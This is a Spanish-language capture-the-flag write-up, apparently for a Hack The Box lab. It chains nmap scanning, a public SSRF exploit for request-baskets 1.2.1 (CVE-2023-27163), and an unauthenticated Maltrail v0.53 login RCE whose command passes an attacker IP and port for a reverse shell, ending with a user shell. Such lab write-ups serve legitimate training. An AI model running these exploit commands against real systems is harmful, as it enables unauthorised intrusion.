


## Información Básica

### Técnicas vistas

- requests-baskets 1.2.1 Exploitation (SSRF - Server Side Request Forgery)
- Maltrail 0.53 Exploitation (RCE - Username Injection)
- Abusing sudoers privilege (systemctl) [Privilege Escalation]

### Preparación

- eWPT

***

## Reconocimiento

### Nmap

Iniciaremos el escaneo de **Nmap** con la siguiente línea de comandos:

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.129.229.26 -oG nmap/allPorts 
```

```
PORT      STATE SERVICE REASON
22/tcp    open  ssh     syn-ack ttl 63
55555/tcp open  unknown syn-ack ttl 63
```

Ahora con la función **extractPorts** (*Función de S4vitar*), extraeremos los puertos abiertos y nos los copiaremos al clipboard para hacer un escaneo más profundo:

```
nmap -sVC -p22,55555 10.129.229.26 -oN nmap/targeted
```

```
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 aa:88:67:d7:13:3d:08:3a:8a:ce:9d:c4:dd:f3:e1:ed (RSA)
|   256 ec:2e:b1:05:87:2a:0c:7d:b1:49:87:64:95:dc:8a:21 (ECDSA)
|_  256 b3:0c:47:fb:a2:f2:12:cc:ce:0b:58:82:0e:50:43:36 (ED25519)
55555/tcp open  http    Golang net/http server
| http-title: Request Baskets
|_Requested resource was /web
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     X-Content-Type-Options: nosniff
|     Date: Sun, 14 Jun 2026 16:01:56 GMT
|     Content-Length: 75
|     invalid basket name; the name does not match pattern: ^[wd-_\.]{1,250}$
|   GenericLines, Help, LPDString, RTSPRequest, SIPOptions, SSLSessionReq, Socks5: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 302 Found
|     Content-Type: text/html; charset=utf-8
|     Location: /web
|     Date: Sun, 14 Jun 2026 16:01:39 GMT
|     Content-Length: 27
|     href="/web">Found</a>.
|   HTTPOptions: 
|     HTTP/1.0 200 OK
|     Allow: GET, OPTIONS
|     Date: Sun, 14 Jun 2026 16:01:39 GMT
|     Content-Length: 0
|   OfficeScan: 
|     HTTP/1.1 400 Bad Request: missing required Host header
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|_    Request: missing required Host header
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port55555-TCP:V=7.99%I=7%D=6/14%Time=6A2ED063%P=x86_64-pc-linux-gnu%r(G
SF:etRequest,A2,"HTTP/1\.0\x20302\x20Found\r\nContent-Type:\x20text/html;\
SF:x20charset=utf-8\r\nLocation:\x20/web\r\nDate:\x20Sun,\x2014\x20Jun\x20
SF:2026\x2016:01:39\x20GMT\r\nContent-Length:\x2027\r\n\r\n<a\x20href=\"/w
SF:eb\">Found</a>\.\n\n")%r(GenericLines,67,"HTTP/1\.1\x20400\x20Bad\x20Re
SF:quest\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x
SF:20close\r\n\r\n400\x20Bad\x20Request")%r(HTTPOptions,60,"HTTP/1\.0\x202
SF:00\x20OK\r\nAllow:\x20GET,\x20OPTIONS\r\nDate:\x20Sun,\x2014\x20Jun\x20
SF:2026\x2016:01:39\x20GMT\r\nContent-Length:\x200\r\n\r\n")%r(RTSPRequest
SF:,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;
SF:\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request"
SF:)%r(Help,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20tex
SF:t/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20
SF:Request")%r(SSLSessionReq,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nCon
SF:tent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\
SF:r\n400\x20Bad\x20Request")%r(FourOhFourRequest,EA,"HTTP/1\.0\x20400\x20
SF:Bad\x20Request\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nX-Co
SF:ntent-Type-Options:\x20nosniff\r\nDate:\x20Sun,\x2014\x20Jun\x202026\x2
SF:016:01:56\x20GMT\r\nContent-Length:\x2075\r\n\r\ninvalid\x20basket\x20n
SF:ame;\x20the\x20name\x20does\x20not\x20match\x20pattern:\x20\^\[\\w\\d\\
SF:-_\\\.\]{1,250}\$\n")%r(LPDString,67,"HTTP/1\.1\x20400\x20Bad\x20Reques
SF:t\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnection:\x20cl
SF:ose\r\n\r\n400\x20Bad\x20Request")%r(SIPOptions,67,"HTTP/1\.1\x20400\x2
SF:0Bad\x20Request\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nCon
SF:nection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(Socks5,67,"HTTP/1\.1
SF:\x20400\x20Bad\x20Request\r\nContent-Type:\x20text/plain;\x20charset=ut
SF:f-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x20Request")%r(OfficeScan
SF:,A3,"HTTP/1\.1\x20400\x20Bad\x20Request:\x20missing\x20required\x20Host
SF:\x20header\r\nContent-Type:\x20text/plain;\x20charset=utf-8\r\nConnecti
SF:on:\x20close\r\n\r\n400\x20Bad\x20Request:\x20missing\x20required\x20Ho
SF:st\x20header");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Puerto 55555



Podemos ver la herramienta **Request Baskets** útil para debugear webhooks, APIs... En resumidas cuentas creas una basket y puedes ver información de las solicitudes que se le hacen.

En el footer vemos esto: `Powered by request-baskets | Version: 1.2.1`

# Explotación

## CVE-2023-27163

Buscando vulnerabilidades de esa versión, encontramos [CVE-2023-27163](https://github.com/madhavmehndiratta/CVE-2023-27163), un exploit que se aprovecha de la vulnerabilidad `Server Side Request Forgery` para poder acceder a servicios internos de la máquina:

```bash
❯ python3 CVE-2023-27163.py http://10.129.229.26:55555 http://127.0.0.1:80
Creating a proxy basket hptdoh...
Basket Created!
Accessing the http://10.129.229.26:55555/hptdoh makes the server request to http://127.0.0.1:80
Authorization Token: 9h5wy-V688LmuJqDpi3Bmpc5CPgT4i-c0acvtRC5_-HI
```

Usaremos `http://127.0.0.1:80` como ruta final para probar:



## Maltrail v0.53

Vemos que está corriendo el servicio `Maltrail v0.53`, vamos a buscar alguna vulnerabilidad. Encomtramos [Maltrail-v0.53-Exploit](https://github.com/spookier/Maltrail-v0.53-Exploit), un PoC que se aprovecha del `RCE` que hay en la ruta `/login` del servicio que no valida la entrada del parámetro `username` y nos permite ejecutar de forma remota y sin autenticarnos comandos en la máquina:

```bash
❯ python3 exploit.py 10.10.15.143 4444 http://10.129.229.26:55555/hptdoh
Running exploit on http://10.129.229.26:55555/hptdoh/login
```

```bash
puma@sau:/opt/maltrail$ whoami
puma
```


[Pwned!](https://labs.hackthebox.com/achievement/machine/1992274/513)

---